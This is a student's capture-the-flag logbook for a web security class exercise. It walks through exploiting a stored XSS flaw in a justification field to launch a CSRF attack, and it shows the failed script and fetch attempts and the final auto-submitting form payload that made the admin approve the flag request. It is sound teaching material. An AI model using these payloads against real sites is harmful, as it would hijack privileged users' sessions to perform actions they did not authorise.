



### CTF Logbook - Week 6 (XSS & CSRF)

Connecting to the web server, on port 5004, we are presented with a justification field, which is vulnerable to XSS, as it does not sanitize the input. We tested this by entering a simple script tag, and seeing if it was executed.

```html
<script>alert('XSS')</script>
```

This was executed and an alert box was shown.



We then entered a normal string (e.g. "test"), and got to look around the admin page, located at port 5005. It is a simple page, with two disabled buttons, one for giving the flag and one for marking the request as read.

Inspecting the admin page, we found that the 'give the flag' button was a form, which sent a POST request to the server.

```html	
<form method="POST" action="/request/e8d14cd641d7d5457a72b85544f522509446d9db/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>
```

#### What we tried

Our initial thought was to inject a script tag, which would enable the button for giving the flag and automatically click it. 

```html
<script>
    document.getElementById("giveflag").disabled = false;
    document.getElementById("giveflag").click();
</script>
```

However, this did not work, as the script was executed at port 5004, and not at port 5005. 

We then tried to use the fetch API to send a POST request, performing the same action as the form. Note that the id for every request is unique and is visible at the top of the page, on port 5004. We had to manually copy and insert it into the script.

```html
<script>
    fetch("http://ctf-fsi.fe.up.pt:5005/request/2192820ffc5638e09269ae45745f59426638b5e8/approve", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"

        }
    });
</script>
```

This did not work either, as the request was blocked by CORS. 



#### The solution 

We ended up injecting HTML code into the justification field, creating a form at port 5004, similar to the one at port 5005. Additionally, we added a script tag, which would automatically submit the form, when the admin visited the page. 

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/af64e4ae7e9e3296eb6799de63c09fbf7be62418/approve" role="form">
    <div class="submit">

        <input type="submit" id="giveflag" value="Give the flag">

    </div>
</form>

<script>
    const button = document.getElementById("giveflag");
    button.click();
</script>
```

This worked, and we were able to get the flag! We successfully exploited the XSS vulnerability to perform a CSRF attack.



Note: we had to disable the javascript in our browser, and visit the admin and then the justification page, in order to get the flag.
Without disabling javascript, we could not see the flag. This is because, since we get redirected to a page with our input, we would be making that request with our own permission level, resulting in 403 forbidden, since we do not have permissions to do it.

